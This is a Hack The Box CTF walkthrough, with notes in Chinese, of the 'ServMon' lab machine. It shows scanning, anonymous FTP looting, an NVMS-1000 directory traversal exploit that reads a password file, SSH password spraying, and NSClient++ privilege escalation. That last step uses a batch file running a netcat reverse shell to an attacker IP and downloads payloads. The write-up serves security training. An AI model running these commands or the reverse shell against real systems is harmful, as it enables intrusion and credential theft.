



###### tags: `Hack the box` `HTB` `Easy`

# ServMon(等他跑好一點再用)
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.227.77 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.227.77:80
Open 10.129.227.77:21
Open 10.129.227.77:22
Open 10.129.227.77:135
Open 10.129.227.77:139
Open 10.129.227.77:445
Open 10.129.227.77:6063
Open 10.129.227.77:6699
Open 10.129.227.77:5666
Open 10.129.227.77:8443
Open 10.129.227.77:49665
Open 10.129.227.77:49664
Open 10.129.227.77:49667
Open 10.129.227.77:49666
Open 10.129.227.77:49668
Open 10.129.227.77:49670
Open 10.129.227.77:49669

PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           syn-ack OpenSSH for_Windows_8.0 (protocol 2.0)
80/tcp    open  http          syn-ack
|_http-favicon: Unknown favicon MD5: 3AEF8B29C4866F96A539730FAB53A88F
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5666/tcp  open  tcpwrapped    syn-ack
6063/tcp  open  tcpwrapped    syn-ack
6699/tcp  open  tcpwrapped    syn-ack
8443/tcp  open  ssl/https-alt syn-ack
| http-title: NSClient++
|_Requested resource was /index.html
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-01-14T13:24:20
| Not valid after:  2021-01-13T13:24:20
| MD5:   1d03:0c40:5b7a:0f6d:d8c8:78e3:cba7:38b4
| SHA-1: 7083:bd82:b4b0:f9c0:cc9c:5019:2f9f:9291:4694:8334
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

ftp登入
```
┌──(kali㉿kali)-[~/htb]
└─$ ftp 10.129.227.77

Name (10.129.227.77:kali): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.

ftp> dir
02-28-22  07:35PM       <DIR>          Users

ftp> cd Users
ftp> dir
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan

ftp> cd Nadine
ftp> dir
02-28-22  07:36PM                  168 Confidential.txt
ftp> get Confidential.txt

ftp> cd Nathan
ftp> dir
02-28-22  07:36PM                  182 Notes to do.txt
ftp> get "Notes to do.txt"
```

查看`Confidential.txt`跟`Notes to do.txt`
```
┌──(kali㉿kali)-[~/htb]
└─$ cat Confidential.txt
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine 

┌──(kali㉿kali)-[~/htb]
└─$ cat "Notes to do.txt"
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint    
```

查看80 port，`http://10.129.227.77/Pages/login.htm`，發現是`nvms-1000`google exploit
[TVT NVMS 1000 - Directory Traversal](https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py)發現可行
```
┌──(kali㉿kali)-[~/htb/NVMS1000-Exploit]
└─$ python3 nvms.py 10.129.227.77 Windows/system.ini win.ini
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
; for 16-bit app support                                                                                                                    
[386Enh]                                                                                                                                    
woafont=dosapp.fon                                                         
EGA80WOA.FON=EGA80WOA.FON                                                   
EGA40WOA.FON=EGA40WOA.FON                                                   
CGA80WOA.FON=CGA80WOA.FON                                                   
CGA40WOA.FON=CGA40WOA.FON                                                                                                                               
[drivers]                                                                   
wave=mmdrv.dll                                                             
timer=timer.drv                                                                                                                                         
[mci]                                                                       
++++++++++  END  ++++++++++
```

查看`Passwords.txt`
```
┌──(kali㉿kali)-[~/htb/NVMS1000-Exploit]
└─$ python3 nvms.py 10.129.227.77 /Users/Nathan/Desktop/Passwords.txt Passwords.txt
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!                                                         
Th3r34r3To0M4nyTrait0r5!                                                   
B3WithM30r4ga1n5tMe                                                         
L1k3B1gBut7s@W0rk                                                           
0nly7h3y0unGWi11F0l10w                                                     
IfH3s4b0Utg0t0H1sH0me                                                       
Gr4etN3w5w17hMySk1Pa5$                                                     
++++++++++  END  ++++++++++ 
```

CME噴灑
```
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec ssh 10.129.227.77 -u nadine -p Passwords.txt
SSH         10.129.227.77   22     10.129.227.77    [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.129.227.77   22     10.129.227.77    [-] nadine:1nsp3ctTh3Way2Mars! Authentication failed.
SSH         10.129.227.77   22     10.129.227.77    [-] nadine:Th3r34r3To0M4nyTrait0r5! Authentication failed.
SSH         10.129.227.77   22     10.129.227.77    [-] nadine:B3WithM30r4ga1n5tMe Authentication failed.
SSH         10.129.227.77   22     10.129.227.77    [+] nadine:L1k3B1gBut7s@W0rk 
```

ssh登入，在`C:\Users\Nadine\Desktop`得到user.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh nadine@10.129.227.77
nadine@10.129.227.77's password: L1k3B1gBut7s@W0rk

nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt 
cea2cfc2f5cd61db63f0cb7fc7b37d07
```

參考[edb-46802](https://www.exploit-db.com/exploits/46802)
```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

開`SSH Local Port Forwarding`
```
┌──(kali㉿kali)-[~/htb]
└─$ ssh -L 8443:127.0.0.1:8443 -N nadine@10.129.227.77
nadine@10.129.227.77's password: L1k3B1gBut7s@W0rk
```

前往`https://127.0.0.1:8443`一定要httpssssssssssssssssssssssss
輸入密碼登入



```
ew2x6SsGTxjRwXOT
```
點`Settings`-> `Settings` -> `External Scripts` -> `Scripts` -> `Add new`



```
┌──(kali㉿kali)-[~/htb]
└─$ cat evil.bat
@echo off
C:\Users\Nadine\Desktop\nc.exe 10.10.14.56 443 -e cmd.exe

PS C:\Users\Nadine\Desktop> iwr http://10.10.14.56/evil.bat -Outfile evil.bat
PS C:\Users\Nadine\Desktop> iwr http://10.10.14.56/nc.exe -Outfile nc.exe
```

點`Settings` -> `Scheduler` -> `Schedules`



右上角`Control` -> `Reload`
```

```